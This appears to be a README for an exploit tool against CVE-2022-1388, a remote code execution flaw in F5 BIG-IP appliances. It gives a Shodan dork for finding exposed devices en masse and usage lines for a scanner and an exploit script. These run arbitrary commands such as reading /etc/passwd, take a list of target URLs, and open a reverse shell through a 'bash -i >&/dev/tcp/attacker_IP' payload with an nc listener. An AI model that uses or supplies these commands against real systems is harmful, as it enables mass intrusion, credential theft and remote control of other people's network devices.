 # CVE-2022-1388
F5-BIG-IP RCE
- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the list_ip file.

Usage
---
- Check:
```
chmod +x scanner.sh
bash scanner.sh
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://127.0.0.1 -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://victim_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
